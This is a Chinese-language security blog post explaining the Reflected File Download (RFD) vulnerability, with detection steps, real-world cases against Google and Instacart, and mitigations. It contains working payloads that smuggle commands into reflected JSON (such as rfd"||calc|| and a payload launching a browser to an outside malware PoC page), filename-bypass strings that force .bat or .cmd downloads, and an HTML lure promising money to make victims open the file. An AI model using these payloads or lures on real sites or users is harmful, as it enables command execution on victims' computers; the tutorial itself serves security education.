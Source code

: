 #  RFD漏洞原理浅析   
Heptagram  七芒星实验室   2024-04-25 23:44  
  
#### 基本介绍  
  
RFD(Reflected File Download)即反射型文件下载漏洞，2014年在BlackHat中被提出，该漏洞在原理上类似XSS，在危害上类似DDE，攻击者可以通过一个URL地址使用户下载一个恶意文件，从而危害用户的终端PC，不过这个漏洞很罕见，大多数公司会认为它是一个需要结合社工的低危漏洞，但微软，雅虎，eBay，PayPal和其他许多公司认为这是一个中危漏洞  
#### 漏洞原理  
  
下面从一个实例理解RDF漏洞，我们通过Google搜索的返回包json格式大致如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicmEOqfROAn3GsbkOPkTWaOOpAsBtdibibachRTY3FR3ic0Kwa8A1CUMMZu2ZeQERCjdWVBott0siaOmeA/640?wx_fmt=png&from=appmsg "")  
  
由此可见，我们的输入在返回包处反射输出，  
我们添加双引号后输出结果变更如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicmEOqfROAn3GsbkOPkTWaOOUCbwEwPttGWo1JH0Picwjcf2Np5iaTbEXwrs4IuzChIVwj86VA4Xiaf7w/640?wx_fmt=png&from=appmsg "")  
  
可以看到输入的双引号被转义了，之后我们构造以下的payload：  
```
rfd"||calc||
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicmEOqfROAn3GsbkOPkTWaOO02C6WW2lYhLK1qErgHf2icAPT6Y622LMaNbXxSAcrN4mJK7934gcPEg/640?wx_fmt=png&from=appmsg "")  
  
到这里仍没什么问题，之后我们尝试在命令行里运行这个回显内容，首先我们再这里仅在命令行下运行前半部分内容，此时会发现这里会报错误信息  
```
{"results":["q", "rfd\"||calc||","I love rfd"]}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicmEOqfROAn3GsbkOPkTWaOOe3wvlhAjgoppw2MJWQXw2TUtUMNj6z6ia0DxNuIwicSJyY6bibXjuMnTw/640?wx_fmt=png&from=appmsg "")  
  
故而证明前半部分为false：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicmEOqfROAn3GsbkOPkTWaOO9esdHkBZdfIelPAsYGS5uGIpTdP3sCXHicFAWpIr7RwUOQQ7bWwiaywg/640?wx_fmt=png&from=appmsg "")  
  
之后我们运行一下内容会直接弹出calc  
```
{"results":["q", "rfd\"||calc||","I love rfd"]
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicmEOqfROAn3GsbkOPkTWaOOC18XXtAUUGwTC3CawI66m6qD39evIxicaicqhVmwMMjHSAhxX5VjgPIw/640?wx_fmt=png&from=appmsg "")  
  
发现在显示"文件名或目录不存在"的同时会执行我们的管道符后的命令calc并弹出计算器，整个解析过程实际为：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicmEOqfROAn3GsbkOPkTWaOOkOBG1WOmsNVjP1WdrRHMzFdgJEYdYDdvbVmoOicy8zVDqD25ecXZbFg/640?wx_fmt=png&from=appmsg "")  
  
下面我们看一下整个流程，首先用户向服务器端发送请求，此时在回显数据报中我们传入的参数数据原样输出：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicmEOqfROAn3GsbkOPkTWaOOJ33Y6tV3xMlHJdRtX2ggcXpJ9R3PgGocHnNLS2TXPiceiaWrV3LCibd5Q/640?wx_fmt=png&from=appmsg "")  
  
之后我们改造URL通过利用和  
DDE相似的攻击方法让回显内容作为一个bat文件下载，这一点可以通过分号(;)或结合社工的方式来实现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicmEOqfROAn3GsbkOPkTWaOOwmoDIhPVuB5DYyJFL30A8p0OfPjYV8W94RYADdw7D38MeN0k7Z5dPA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicmEOqfROAn3GsbkOPkTWaOOXFX4JCBBJegB1uficLn068BfNZH4jhGISM32OzRJwcJfNVfDTpviamicQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicmEOqfROAn3GsbkOPkTWaOOq2QZxp1RWSicK4ibSsn0dShSAT7ZmVREDSop3roDYqDvwGOniaSSqvPvA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicmEOqfROAn3GsbkOPkTWaOOITzLvFpmNy7CAq5gPyVV15InSvCxNzy15PVYlWFrGcjZu4uAgOTKeg/640?wx_fmt=png&from=appmsg "")  
  
备注：URL中分号;是个保留字符，类似连接符，现已废除  
#### 漏洞挖掘  
  
根据漏洞触发的三个条件挖掘漏洞：  
- 输入反射：用户输入被"反射"到响应内容  
  
- 文件名可控：URL允许接受用户的其他输入，攻击者将其用于把文件扩展名设置为可执行扩展名  
  
- 诱导下载操作：响应被作为文件里内容进行下载，通过控制Content-Type或者在VPS上创建一个HTML文件并设置download属性，诱导点击下载  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicmEOqfROAn3GsbkOPkTWaOOFpnrpBCZBp0UTnc1l2ibNc6MkfQOoon0fkynjzibpfKqfceryliaPuzBQ/640?wx_fmt=png&from=appmsg "")  
  
简易测试示例：  
  
Step 1：验证JSON/JSONP API的响应并检查是否得到了任何用户输入，从下面的示例中您可以看到first_name，last_name和ph反射在JSON响应中  
```
#请求示例
https://some.website.com/api/v1.0/get_user_profile

#响应示例：
{
"data": {
        "id": "1239985",
        "domain": "website.com",
        "ph": "6456787984",
        "first_name": "DemoTest",
        "last_name": "LastRFD",
        "version": "5",
        }
}
```  
  
  
Step 2：通过输入RFD有效负载rfd"||calc||到first_name和last_name字段，验证JSON/JSONP响应(如果它像rfd"||calc|| 一样反射回来，那么就有RFD的可能性)，  
要完全验证它需要将响应复制并保存为filename.bat，使用cmd提示打开它，可以看到窗口calc弹出了  
```
{
    "data": {
        "id": "1239985",
        "domain": "website.com",
        "ph": "6456787984",
        "first_name": "rfd\"||calc||",
        "last_name": "rfd\"||calc||",
        "version": "5",
     }
}
```  
  
Step 3：构造文件名  
  
如果我们在IE 11中命中JSON/JSONP API URL，我们可以看到响应将以somefileName.json的形式下载，文件名主要取决于http Content-Disposition标头和URL，而要利用此漏洞，我们需能够将文件格式更改为.cmd，.bat或.exe才能执行  
  
例如：Content-Disposition: userprofile.json，此时的文件将以Content-Disposition标头中提到的相同名称下载，因此我们无法利用它，我们需要转到下一个可能性，例如:没有Content-Disposition标头的响应，如果Content-Disposition响应标头中没有返回文件名属性，浏览器将被迫根据URL确定下载文件的名称，例如：https://some.website.com/api/v1.0/get_user_profile，此时我们可以使用以下有效负载来绕过此文件名：  
```
get_user_profile.bat
get_user_profile;setup.bat
get_user_profile/setup.bat
get_user_profile;/setup.bat
get_user_profile;/setup.bat;
```  
  
Step 4：下载文件操作，下面给出一个  
HTML模板，此时如果用户打开html页面，单击链接，文件将下载为setup.cmd  
```
<! DOCTYPE html>
<html>
<body>
  <p>Click the Image and open the file: You will be rewarded with $800<p>
  <a href="https://some.website.com/api/v1.0/get_user_profile/setup.cmd?" download>
  <img border="0" src="https://some.website.com/api/v1.0/get_user_profile/setup.cmd?" alt="8000 Dollars" width="104" height="142"></a>
</body>
</html>
```  
  
以上整个利用路径为：  
```
用户点击URL链接->下载文件->打开文件->恶意命令执行
```  
#### 简易案例  
##### Google  
  
这是Oren Hafif在google利用的例子，在facebook中插入的一个google超链接，如下形式内容：  
```
https://www.google.com/s;/Glasslnstaller.bat;/Glasslnstaller.bat?gs_ri=psy-ab&q=%22%7c%7c%74….
```  
  
点击后会下载一个bat文件到本地，下载后直接运行效果如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicmEOqfROAn3GsbkOPkTWaOOKOeJWMZ9ibtjXMlGbJc2C6husSmeMsk9nSQSicqdcDicsFvX9VEtMY21A/640?wx_fmt=png&from=appmsg "")  
  
在该恶意bat文件中我们可以写入恶意命令，例如：shutdown等之后使其执行，在这个构造过程中，我们先用了一个双引号闭合掉了前面的不可控的双引号，然后利用||符号(命令行中||表示逻辑"或")保证命令成功执行  
##### Instacart  
  
请求https://www.instacart.com/api/v2/searches?cart_id=3471936&term=rfd&page=1，之后发现term参数回显：  
```
{"meta":{"code":200,"source":"search_service","cluster":null},"data":{"term":"rfd","inventory_area_id":617,"items":[],"total_results":0,"aisles":[],"warehouses":[],"search_strategies":[],"tracking":{},"product_type_filter":false,"has_deals":false,"search_id":141585110},"pagination":{"total":0,"page":1,"per_page":50}}
```  
  
之后将term参数修改为以下payload：  
```
"||start chrome davidsopas.com/poc/malware.htm||
```  
  
创建html文件诱导下载：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicmEOqfROAn3GsbkOPkTWaOO00GibVwRDzhp3SsCQTTibJ3R2PNKZ6RA1N1gZGztGDuZtToCmYQ2EaDA/640?wx_fmt=png&from=appmsg "")  
#### 修复措施  
- 使用CSRF令牌  
  
- 为所有API实施安全标头  
  
- 使用Content-Disposition标题强制文件名  
  
#### 参考链接  
  
https://www.blackhat.com/docs/eu-14/materials/eu-14-Hafif-Reflected-File-Download-A-New-Web-Attack-Vector.pdf  
  
  
  
